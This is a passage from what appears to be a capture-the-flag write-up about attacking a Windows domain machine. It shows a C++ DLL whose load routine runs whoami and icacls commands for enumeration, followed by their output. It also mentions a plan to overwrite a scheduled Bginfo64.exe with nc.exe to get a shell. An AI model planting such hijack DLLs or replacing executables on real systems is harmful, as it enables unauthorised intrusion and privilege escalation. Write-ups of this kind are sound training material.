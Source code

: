 It seems that this file can be run regardless of what it is. Now that we have RCE as another user, let's try to enumerate who this user is and what they can do. Since the `Bginfo64.exe` file can be run, let's see if we can overwrite it with our own file like `nc.exe`.&#x20;

First we enumerate using this new DLL:

```cpp
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
#include "pch.h
#include <stdlib.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c whoami /all > C:\\users\\public\\whoami.txt");
            system("cmd.exe /c icacls C:\\share\\* > C:\\users\\public\\icacls.txt");
            system("cmd.exe /c icacls C:\\share\\scripts\\* >> C:\\users\\public\\icacls.txt");
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
```

After a while, it would create those files. Here's the interesting output:

{% code overflow="wrap" %}
```
C:\Users\Public>type whoami.txt

USER INFORMATION
----------------

User Name         SID                                           
================= ==============================================
windcorp\ginawild S-1-5-21-3783586571-2109290616-3725730865-2663
<TRUNCATED>
WINDCORP\ITDep                             Group            S-1-5-21-3783586571-2109290616-3725730865-9601 Mandatory group, Enabled by default, Enabled group

C:\Users\Public>type icacls.txt
C:\share\Bginfo64.exe NT AUTHORITY\IUSR:(I)(N)
                      BUILTIN\IIS_IUSRS:(I)(N)
                      WINDCORP\web:(I)(N)
                      BUILTIN\Administrators:(I)(M,WO,DC)
                      NT AUTHORITY\SYSTEM:(I)(F)
                      WINDCORP\ITDep:(I)(RX,WO)
                      BUILTIN\Administrators:(I)(F)
                      BUILTIN\Users:(I)(RX)
```
{% endcode %}
